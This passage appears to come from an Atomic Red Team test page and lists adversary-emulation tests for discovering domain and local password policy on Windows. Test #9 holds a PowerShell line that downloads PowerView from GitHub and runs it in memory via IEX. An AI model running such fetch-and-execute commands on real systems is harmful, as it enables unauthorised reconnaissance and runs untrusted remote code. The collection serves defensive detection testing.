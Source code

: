 ## Atomic Test #9 - Get-DomainPolicy with PowerView
Utilizing PowerView, run Get-DomainPolicy to return the default domain policy or the domain controller policy for the current domain or a specified domain/domain controller.

**Supported Platforms:** Windows


**auto_generated_guid:** 3177f4da-3d4b-4592-8bdc-aa23d0b2e843






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1' -UseBasicParsing); Get-DomainPolicy -verbose
```






<br/>
<br/>

## Atomic Test #10 - Enumerate Active Directory Password Policy with get-addefaultdomainpasswordpolicy
The following Atomic test will utilize get-addefaultdomainpasswordpolicy to enumerate domain password policy.
Upon successful execution a listing of the policy implemented will display.
Reference: https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-addefaultdomainpasswordpolicy?view=windowsserver2022-ps

**Supported Platforms:** Windows


**auto_generated_guid:** b2698b33-984c-4a1c-93bb-e4ba72a0babb






#### Attack Commands: Run with `powershell`! 


```powershell
get-addefaultdomainpasswordpolicy
```






<br/>
<br/>

## Atomic Test #11 - Use of SecEdit.exe to export the local security policy (including the password policy)
SecEdit.exe can be used to export the current local security policy applied to a host.
[Reference](https://blueteamops.medium.com/secedit-and-i-know-it-595056dee53d)
